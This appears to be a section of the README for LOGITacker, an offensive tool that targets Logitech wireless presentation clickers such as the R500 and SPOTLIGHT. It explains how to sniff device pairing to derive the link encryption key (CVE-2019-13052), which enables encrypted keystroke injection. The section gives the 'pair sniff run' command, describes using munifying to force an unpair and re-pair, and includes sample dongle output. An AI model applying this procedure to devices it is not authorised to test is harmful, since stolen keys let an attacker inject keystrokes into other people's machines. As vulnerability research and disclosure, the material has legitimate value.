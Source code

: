 ## 3.4 Encrypted injection

In order to execute the example scripts agains an encrypted Logitech device, the decryption key has to be obtained.
There are two class of vulnerabilities, allow stealing those keys:

1) Sniff the pairing (or re-pairing) of the device to obtain the key (CVE-2019-13052)
2) USB based key extraction from Logitech receivers using a Texas Instruments chip (CVE-2019-13054, CVE-2019-13055)

As the details for CVE-2019-13054 / CVE-2019-13055 aren't released, yet, the key should be obtained using by sniffing
the device pairing. The scripts of the last section have been built to target wireless presentation clickers, like R500
or SPOTLIGHT. When those devices ship, they are already paired to the receiver. This is less of an issue, as an 
undocumented pairing mode could be triggered, anyways.

The following video shows the concept: https://youtu.be/MauTMsyphUE 

The pre-release version of munifying could be found here: https://github.com/mame82/munifying_pre_release

The only thing which has to be done to capture a pairing with LOGITacker and derive the link encryption key according to
CVE-2019-13052, is to issue the following command: `pair sniff run`

LOGITacker starts flashing the red LED. Once a receiver - which is set to pairing mode - is in range, the LED starts 
flashing blue. If a pairing is captured successfully, the device and associated key are not only stored in LOGITacker's
RAM, but they are automatically stored to flash.

In order to unpair and re-pair the device to the receiver, the `munifying` tool is used. Re-pairing of the device is
done, while LOGITacker is running in `pair sniff` mode.

The command `./munifying unpair` lists devices currently paired to the receiver and ask for a device to unpair.
To set the receiver back to pairing mode and re-pair the device, munifying has to be called with `./munifying pair`. 

Below is the example output of `munifying` for unpairing a R500 presenation clicker from its receiver and initiating 
pairing mode again.

```
root@who-knows:~# ./munifying unpair
Found CU0016 Dongle for R500 presentation clicker
Using dongle USB config: Configuration 1
Resetting dongle in order to release it from kernel (connected devices won't be usable)
HID++ interface: vid=046d,pid=c540,bus=3,addr=56,config=1,if=2,alt=0
HID++ interface IN endpoint: ep #3 IN (address 0x83) interrupt - undefined usage [32 bytes]
Dongle Info
-------------------------------------
	Firmware (maj.minor.build):  RQR45.00.B0002
	Bootloader (maj.minor):      02.09
	WPID:                        8808
	(likely) protocol:           0x04
	Serial:                      01:89:97:e6
	Connected devices:           1

Device Info for device index index 0
-------------------------------------
	Destination ID:              0x23
	Default report interval:     8ms
	WPID:                        407a
	Device type:                 0x04 (PRESENTER)
```